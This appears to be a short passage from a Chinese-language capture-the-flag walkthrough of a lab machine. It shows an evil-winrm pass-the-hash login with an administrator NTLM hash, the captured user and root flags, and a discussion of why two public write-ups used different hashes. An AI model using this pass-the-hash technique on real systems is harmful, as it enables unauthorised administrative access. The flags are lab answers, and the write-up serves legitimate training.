获取到管理员的哈希，PTH传递 登录上去
```powershell
evil-winrm -i 192.168.212.4 -u administrator -H 5d48bcf84aea999fb1ade06970a81237

*Evil-WinRM* PS C:\users\music\documents> type user.txt
53bdf70c03ad626fe7a17ba5a9495b3a

*Evil-WinRM* PS C:\Users\Administrator\documents> type root.txt
8e824f6e933f0b62616aa54d75416184

```

> 这里有点问题。 我们获取到的hash是`bb1c50a48c37e053d2045cd5b55cd2f2`
> 但是等不上去。 正确的hash是`5d48bcf84aea999fb1ade06970a81237`

看了一下wp。
`5d48bcf84aea999fb1ade06970a81237` 的来源是看的这个 [wp](http://www.vxer.cn/2024/11/12/thehackerslabs-big-walkthrough/?unapproved=93&moderation-hash=b2958a09da2185b9e9173703b0165341#comment-93) 

而且官方下面的 [wp](https://curiosidadesdehackers.com/resolucion-de-la-maquina-b-i-g/) 用的又是 `bb1c50a48c37e053d2045cd5b55cd2f2` 登上去的

我猜测可能是用户改变导致的
![Pasted image 20241205212440](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241205212440.png)